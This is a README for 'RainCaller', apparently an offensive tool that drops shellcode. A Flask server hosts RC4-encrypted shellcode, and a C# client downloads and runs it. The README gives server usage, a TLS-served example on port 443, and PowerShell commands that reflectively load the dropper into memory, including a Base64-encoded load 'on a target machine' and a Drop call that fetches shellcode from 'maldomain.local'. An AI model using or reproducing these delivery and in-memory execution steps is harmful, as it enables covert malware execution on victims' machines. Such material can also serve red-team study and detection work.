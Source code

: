 # RainCaller
**RainCaller** is a shellcode dropper suite consisting of a *Python3* webserver (server) and a *C#* dropper (client).

***

## Server
The server is located in the */Server* folder.

### Installation
The server-side part of **RainCaller** has some *Python3* dependencies noted down in the `requirements.txt` file. These can be installed with *pip3*:
```
tester@dev:~$ pip3 install -r requirements.txt
Collecting Flask
  Downloading Flask-2.0.1-py3-none-any.whl (94 kB)
     |████████████████████████████████| 94 kB 1.0 MB/s 
  ...
```

### Usage
```
tester@dev:~$ python3 main.py

██████╗  █████╗ ██╗███╗   ██╗ ██████╗ █████╗ ██╗     ██╗     ███████╗██████╗ 
██╔══██╗██╔══██╗██║████╗  ██║██╔════╝██╔══██╗██║     ██║     ██╔════╝██╔══██╗
██████╔╝███████║██║██╔██╗ ██║██║     ███████║██║     ██║     █████╗  ██████╔╝
██╔══██╗██╔══██║██║██║╚██╗██║██║     ██╔══██║██║     ██║     ██╔══╝  ██╔══██╗
██║  ██║██║  ██║██║██║ ╚████║╚██████╗██║  ██║███████╗███████╗███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                @v1.1                                                                                                                       
    
usage: main.py [-h] -a ADDRESS -p PORT -u URI -f FILE -k KEY [--ssl_key SSL_KEY] [--ssl_crt SSL_CRT]
main.py: error: the following arguments are required: -a/--address, -p/--port, -u/--uri, -f/--file, -k/--key
```
| Argument      | Description |
| -----------   | ----------- |
| ADDRESS       | What address to listen on (`0.0.0.0`, `127.0.0.1` ...)                      |
| PORT          | What port to listen on                                                      |
| URI           | What URI should the shellcode be retrievable from                           |
| FILE          | Path to a file containing unencrypted shellcode in a binary format          |
| KEY           | Key used to RC4 encrypt the shellcode obtained from the FILE parameter      |
| SSL_KEY       | Optional path to an SSL key (PEM format) if TLS/SSL is to be used           |
| SSL_CRT       | Optional path to an SSL certificate (PEM format) if TLS/SSL is to be used   |

### Example
```
tester@dev:~$ sudo python3 main.py -a 0.0.0.0 -p 443 -u /download -f calc_x64_sc.bin -k HelloWorld --ssl_key key.pem --ssl_crt cert.pem

██████╗  █████╗ ██╗███╗   ██╗ ██████╗ █████╗ ██╗     ██╗     ███████╗██████╗ 
██╔══██╗██╔══██╗██║████╗  ██║██╔════╝██╔══██╗██║     ██║     ██╔════╝██╔══██╗
██████╔╝███████║██║██╔██╗ ██║██║     ███████║██║     ██║     █████╗  ██████╔╝
██╔══██╗██╔══██║██║██║╚██╗██║██║     ██╔══██║██║     ██║     ██╔══╝  ██╔══██╗
██║  ██║██║  ██║██║██║ ╚████║╚██████╗██║  ██║███████╗███████╗███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                @v1.1                                                                                                                         
    
[*]> Starting the server thread...
 * Serving Flask app 'main' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+]> Done.
...
```
In other words, start a listener on the global interface on port `443`. Read shellcode from the `calc_x64_sc.bin` file, encrypt it with the string `HelloWorld` and serve it on the `/download` URI. Use the optional SSL/TLS configuration where `key.pem` and `cert.pem` are valid paths to the corresponding TLS/SSL files.

***

## Client
The client is located in the */Client* folder. To compile the client, open the solution in *Visual Studio* and target the release build against `.NET Framework 4.0` or `.NET Framework 4.5`.

### Usage (Normal)
```
C:\Users\Public\Documents\>RainCaller.exe
RainCaller.exe <uri> <enc_key>
```
| Argument      | Description |
| -----------   | ----------- |
| uri           | URL to the remote endpoint which serves the shellcode            |
| enc_key       | Key which the shellcode was encrypted with (used for decryption) |


### Usage (Reflection)
**RainCaller** can be easily reflected into memory:
```powershell
PS C:\Users\tester> [System.Reflection.Assembly]::LoadFile("C:\Users\tester\RainCaller.exe")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     C:\Users\tester\RainCaller.exe

PS C:\Users\tester> [RainCaller.RainCaller]::Drop("hxxps://maldomain.local/shellcode", "shellcodeEncKey")
```
Alternatively, one can Base64 encode (or obfuscate / encrypt) the binary on a local machine:
```powershell
PS C:\Users\tester> $dll = [System.IO.File]::ReadAllBytes("C:\Users\tester\RainCaller.exe")
PS C:\Users\tester> [System.Convert]::ToBase64String($dll)
TVqQAAMAAAAEAAAA//8AA...
```
And afterwards load it on a target machine in the following way:
```powershell
PS C:\Users\tester> [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String("TVqQAAMAAAAEAAAA//8AA..."))

GAC    Version        Location
---    -------        --------
False  v4.0.30319     

PS C:\Users\tester> [RainCaller.RainCaller]::Drop("hxxps://maldomain.local/shellcode", "shellcodeEncKey")
```
